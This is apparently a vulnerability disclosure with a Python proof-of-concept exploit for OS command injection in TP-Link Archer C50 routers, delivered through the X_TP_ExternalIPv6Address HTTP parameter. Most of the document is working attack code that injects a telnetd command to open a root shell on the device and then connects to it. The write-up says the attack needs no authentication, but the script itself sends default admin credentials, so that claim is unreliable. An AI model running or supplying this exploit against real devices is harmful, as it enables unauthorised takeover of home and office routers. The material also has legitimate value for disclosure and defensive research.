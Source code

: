 # Archer_C50
Exploit Author: yangchunyu@whu.edu.cn

Vendor: TP-Link

Firmware: Archer_C50(TW)_V1_160614

There is remote unauthenticated OS command injection on TP-Link Archer C50 devices via the X_TP_ExternalIPv6Address HTTP parameter, allowing a remote attacker to run arbitrary commands on the router with root privileges.

Perform command concatenation on the X_TP_ExternalIPv6Address parameter in the HTTP POST message, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2021-44827.

# poc
import requests

import base64

import os

import time

ip = targetIPAddress

username = "admin"

password = "admin"

tplink_url = "http://" + ip + "/cgi?2&2"

userinfo = username + ":" + password

cookie = "Authorization=Basic " + base64.b64encode(userinfo.encode()).decode("ascii")

referer = "http://" + ip +"/mainFrame.htm"

cmd = "telnet " + ip + " 1024"

payload_template = """[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1\r

X_TP_lastUsedIntf=ipoe_eth3_s\r

[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21\r

externalIPAddress=192.168.9.222\r

subnetMask=255.255.255.0\r

defaultGateway=192.168.9.2\r

NATEnabled=1\r

X_TP_FullconeNATEnabled=0\r

X_TP_FirewallEnabled=1\r

X_TP_IGMPProxyEnabled=1\r

X_TP_IGMPForceVersion=0\r

maxMTUSize=1500\r

DNSOverrideAllowed=1\r

DNSServers=192.168.9.3,0.0.0.0\r

X_TP_IPv4Enabled=1\r

X_TP_IPv6Enabled=0\r

X_TP_IPv6AddressingType=Static\r

X_TP_ExternalIPv6Address=commond\r

X_TP_PrefixLength=64\r

X_TP_DefaultIPv6Gateway=::\r

X_TP_IPv6DNSOverrideAllowed=0\r

X_TP_IPv6DNSServers=::,::\r

X_TP_MLDProxyEnabled=0\r

enable=1\r
"""
payload = payload_template.replace("commond", "::")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

time.sleep(5)

payload = payload_template.replace("commond", "&telnetd -p 1024 -l sh&")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

os.system(cmd)
